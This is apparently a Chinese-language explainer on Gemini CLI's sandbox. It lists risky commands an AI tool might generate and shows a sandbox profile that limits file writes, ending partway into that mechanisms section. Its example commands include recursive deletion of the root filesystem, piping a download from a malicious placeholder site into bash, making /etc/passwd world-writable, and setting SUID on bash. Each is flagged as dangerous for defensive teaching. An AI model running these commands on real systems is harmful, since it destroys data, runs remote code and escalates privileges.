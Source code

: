 # Gemini CLI 沙盒安全保护详解

## 🤔 为什么 CLI 需要沙盒？

Gemini CLI 是一个强大的 AI 工具，能够执行各种操作，包括文件修改、代码生成、命令执行等。但是，**AI 生成的内容可能包含意外或有害的操作**，这就是为什么需要沙盒的原因。

### 潜在风险场景

#### 1. 意外的文件删除
```bash
# AI 可能生成这样的命令
rm -rf /home/user/important_documents  # 危险！
rm -rf /*  # 极其危险！
```

#### 2. 系统配置修改
```bash
# AI 可能尝试修改系统配置
sudo chmod 777 /etc/passwd  # 危险！
echo "malicious" >> ~/.bashrc  # 可能有害
```

#### 3. 网络安全风险
```bash
# AI 可能尝试访问不安全的网络
curl http://malicious-site.com/download.sh | bash  # 危险！
wget http://suspicious-url.com/script.sh  # 可能有害
```

#### 4. 权限提升
```bash
# AI 可能尝试获取更高权限
sudo su -  # 危险！
chmod +s /bin/bash  # 设置 SUID 位
```

## 🛡️ 沙盒保护机制

### 1. 文件系统隔离

#### 允许的路径
```lisp
;; 只允许写入特定路径
(allow file-write*
    (subpath (param "TARGET_DIR"))      ;; 项目目录
    (subpath (param "TMP_DIR"))         ;; 临时目录
    (subpath (param "CACHE_DIR"))       ;; 缓存目录
    (subpath (string-append (param "HOME_DIR") "/.gemini"))  ;; 配置目录
    (subpath (string-append (param "HOME_DIR") "/.npm"))     ;; npm 缓存
    (literal "/dev/stdout")             ;; 标准输出
    (literal "/dev/stderr")             ;; 标准错误
    (literal "/dev/null")               ;; 空设备
)
```
